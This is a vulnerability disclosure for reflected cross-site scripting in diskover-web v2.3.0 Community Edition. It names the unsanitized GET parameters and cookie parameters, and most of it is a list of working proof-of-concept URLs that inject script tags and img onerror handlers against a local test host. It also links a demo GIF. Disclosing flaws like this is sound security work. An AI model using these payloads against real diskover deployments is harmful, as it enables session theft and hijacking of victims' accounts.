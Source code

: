 diskover-web v2.3.0 Community Edition is vulnerable to multiple reflected cross-site scripting (XSS) flaws in its web interface. Unsanitized GET parameters—including maxage, maxindex, index, path, q (query), and doctype—are directly echoed into the HTML response, allowing attackers to inject and execute arbitrary JavaScript when a victim visits a maliciously crafted URL.



```diskover-web v2.3.0 community edition (ce)```

maxage

```http://172.17.0.1:8080/selectindices.php?maxage=1"><script>alert(2)<%2fscript>&namecontains=&reloadindices&refreshindices```

maxindex

```http://172.17.0.1:8080/selectindices.php?reloadindices=true&maxindex=1%22%3e%3cscript%3ealert(1)%3c%2fscript%3e```

maxindex

```http://172.17.0.1:8080/selectindices.php?reloadindices=true&maxindex=1"><script>alert(1)</script>```

index


```http://172.17.0.1:8080/selectindices.php?indices-table_length=10&index=diskover-my_index_name%22%3e%3cscript%3ealert(1)%3c%2fscript%3e```

```http://172.17.0.1:8080/d3_data_bar_mtime_searchresults.php?path=%2fdata<img src%3da onerror%3dalert(1)>&usecache=1```

```http://172.17.0.1:8080/d3_data_search.php?path=%2fdata<img src%3da onerror%3dalert(1)>&filter=1&time=0&use_count=0&show_files=0&usecache=1```

```http://172.17.0.1:8080/search.php?index=diskover-my_index_name&submitted=true&p=1&q=size%3a<%3d52428800><script>alert(1)<%2fscript>&doctype=file```

```http://172.17.0.1:8080/search.php?index=diskover-my_index_name&submitted=true&p=1&q=size:<=52428800&doctype=file><script>alert(1)<%2fscript>```

```http://172.17.0.1:8080/view.php?id=kF7LTpYBiPlhI5qdCBHk&docindex=diskover-my_index_name&doctype="><script>alert(2)<%2fscript>```

```http://172.17.0.1:8080/view.php?id=kF7LTpYBiPlhI5qdCBHk&docindex=diskover-my_index_name%3cscript%3ealert(1)%3c%2fscript%3e&doctype=file```




Cookie

```
maxindex
index
```

Cookie JSON parameters

```
doctype 
file_size_bytes_low
file_size_bytes_high
last_mod_time_low
file_size_bytes_low 
```

Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/diskover-web_v2.3.0_community_edition_reflected_XSS_via_cookie.gif?raw=true)
